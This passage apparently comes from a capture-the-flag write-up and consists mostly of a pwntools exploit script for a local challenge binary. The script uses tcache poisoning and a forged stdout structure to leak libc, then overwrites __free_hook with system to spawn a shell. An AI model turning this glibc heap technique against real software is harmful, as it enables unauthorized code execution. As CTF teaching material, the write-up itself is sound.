 ```plain

    add(0x70,'a')#let the fd pointer of unsorted bin local tcache bin

    add(0x80,'a')

    add(0x90,'\xa0\x46')#stdout struct

    payload=p64(0xdeadbeef)*18+p64(0)+p64(0x180)
    add(0x100,payload)#tamper size of unsorted bin

    payload=p64(0xfbad1887)+p64(0)*3+b'\x00'
    add(0x100,payload)#io leak

    leak_libc=l64()
    libc_base=leak_libc-0x1ec980
    li('libc_base = '+hex(libc_base))

    free_hook=libc_base+libc.symbols['__free_hook']
    sys_addr=libc_base+libc.symbols['system']


    delete(12)

    delete(2)#second tcache poisoning

    payload=p64(0xdeadbeef)*12+p64(0x70)+p64(0x90)+p64(free_hook)
    add(0xb0,payload)#Cut a piece of memory from unsorted bin to control the fd pointer of tcache bin 


    add(0x80,'/bin/sh\x00')

    add(0x80,p64(sys_addr)) 

    delete(17)
    p.interactive()

while 1:
    try:
     p = process('./pwn') 
     libcso = './libc'
     libc = ELF(libcso)
     elf = ELF('./pwn')
     pwn()

    except:
     p.close()
```

[![](assets/1700186924-2c8af591f4eec66ab92164c1fa8cb5e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116163102-79fa2baa-845a-1.png)
